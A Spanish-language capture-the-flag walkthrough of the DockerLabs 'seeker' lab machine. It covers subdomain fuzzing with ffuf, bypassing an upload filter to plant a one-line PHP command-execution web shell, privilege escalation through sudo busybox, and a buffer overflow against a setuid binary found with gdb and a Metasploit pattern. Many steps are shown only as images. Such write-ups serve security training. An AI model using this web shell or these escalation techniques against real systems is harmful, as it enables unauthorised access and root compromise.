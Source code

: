 nmap: 80

![image](https://github.com/user-attachments/assets/ff3cd078-fc1e-459c-8639-086836758977)

entramos a la pagina y no estaba encontrando nada y viendo el apache2 vi esto:

![image](https://github.com/user-attachments/assets/815b9f3b-7096-4316-816c-ec053989f3d7)

encontré que podemos agregarlo como .dl, si entramos veremos la misma pagina, intente con gobuster otra vez pero no me dio nada asi que lanzamos un fuzzing 

      ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://5eek3r.dl -H "Host: FUZZ.5eek3r.dl" -fs 10705

![image](https://github.com/user-attachments/assets/0ea7d491-d1d2-4b82-abbe-d8a190225222)

obtenemos un "crosswords", como es subdominio lo añadimos al host

![image](https://github.com/user-attachments/assets/7857eb8e-95e8-4700-a735-8f632a5578bb)

y obtenemos

![image](https://github.com/user-attachments/assets/0b6ce348-1d7c-4119-979d-682891662c06)

si ingresamos solo lo codifica. vamos al código fuente  

![image](https://github.com/user-attachments/assets/355c76f4-cdb2-41ca-aede-4059fa21d72a)

capturo con burpsuite pero no encuentro nada, o sea las solicitudes me dan las mismas que la web en si, así que seguimos buscando

lo que podríamos intentar como ya encontramos un subdominio, buscar otro subdominio 

     ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://5eek3r.dl -H "Host: FUZZ.crosswords.5eek3r.dl" -fs 10705 
     
y dimos que tenemos un admin

![image](https://github.com/user-attachments/assets/4481fc1b-b557-4923-93de-0bfd13b1a1d5)

lo agregamos y vemos que hay una subida de archivos

![[dockerlabs/medio/seeker/subida.png]]

pero al intentar subir archivos me aparece que no permite .py, asi que probamos otros y dimos que funciona con phtml

      <?php
       system($_GET['cmd']);
       ?>


![[virus.png]]

ahora en la URL colocamos el archivo

no funciono así que probamos algo mas directo y con otra extensión

![[dockerlabs/medio/seeker/test.png]]

![[dockerlabs/medio/seeker/conexion.png]]

obtenemos conexión, pero antes de lanzar la conexión tenemos que lanzarla desde 
> crosswords.5eek3r.dl/shell.phar

dentro veremos como "escalar"

![[dockerlabs/medio/seeker/gt.png]]

buscamos en https://gtfobins.github.io/gtfobins/busybox/#sudo
nos da el comando de sudo 

     sudo busybox sh

lo modificamos 

     sudo -u astu busybox sh

![[dockerlabs/medio/seeker/usuario1.png]]

veremos esto con el usuario astu

![[bas64.png]]

probamos si se puede hacer un ataque de desbordamiento

![[flow.png]]

vemos que se puede, pero como no podemos ver el código por el formato lo pasamos a ghidra, nos pasamos por medio de un servidor el bs64 y veremos algo importante

    printf("Ejecutando /bin/sh");
    setuid(0);
    system("/bin/sh");
    return;

como se ve esta llamando a root por el setuid(0)
creamos como un "código" por decir así para el desbordamiento

     /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400


![[gdb.png]]

veremos que nos da un valor 0x00000000004013d8
y si colocamos ret nos dará el valor: 0x6341356341346341

obtenemos esto el valor 72 

![[gdb2.png]]

lo que es el offset que se buscaba poder un exploit. hacemos el exploit

![[dockerlabs/medio/seeker/exploit.png]]

con los valores que obtuvimos, lanzamos

![[dockerlabs/medio/seeker/root.png]]

y somos root!
